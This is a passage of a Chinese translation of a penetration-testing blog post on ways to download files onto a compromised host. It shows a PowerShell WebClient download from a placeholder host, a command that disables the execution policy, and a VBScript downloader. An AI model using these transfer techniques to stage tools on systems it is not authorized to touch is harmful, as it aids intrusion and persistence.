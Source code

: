# 下载文件的15种方法

from:https://www.netspi.com/blog/entryid/231/15-ways-to-download-a-file

在我们的入侵过程中，通常会需要向目标主机传送一些文件，来达到提权，维持控制等目的。这篇blog列举了15种下载文件的方法。

当然还有许多其它的办法来上传文件，下面的列表是15个我比较喜欢使用的技巧。

### PowerShell File Download

PowerShell 是一种winodws原生的脚本语言，对于熟练使用它的人来说，可以实现很多复杂的功能。

在windows 2003之中默认支持这种脚本。

下面这两条指令实现了从Internet网络下载一个文件。

```
$p = New-Object System.Net.WebClient
$p.DownloadFile("http://domain/file" "C:\%homepath%\file")

```

下面这条指令是执行一个文件

```
PS C:\> .\test.ps1

```

有的时候PowerShell的执行权限会被关闭，需要使用如下的语句打开。

```
C:\>powershell set-executionpolicy unrestricted

```

### Visual Basic File Download

在1998年Visual Basic最终标准在windows上确定。下面的代码可以实现下载文件，虽然它的长度比Powershell长多了。

```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with

```

在windows中Cscript指令可以允许你执行VBS脚本文件或者对script脚本做一些设置。在windows 7中这个指令并不是必须要用到。 但是在windows XP中需要使用这条指令，如下所示。
